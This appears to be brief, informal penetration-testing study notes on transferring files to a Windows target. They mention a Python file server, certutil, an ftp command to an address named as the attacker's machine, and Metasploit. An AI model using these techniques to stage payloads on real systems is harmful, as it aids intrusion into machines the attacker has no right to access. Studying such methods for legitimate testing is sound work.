

we use python wala to host files as a hacker
for windows type machine we use certutil wala command
if certutil is blocked then use ftp feature
ftp 10.10.10.10 here its ip address of attacker machine
also other option is msfconsole for upload and download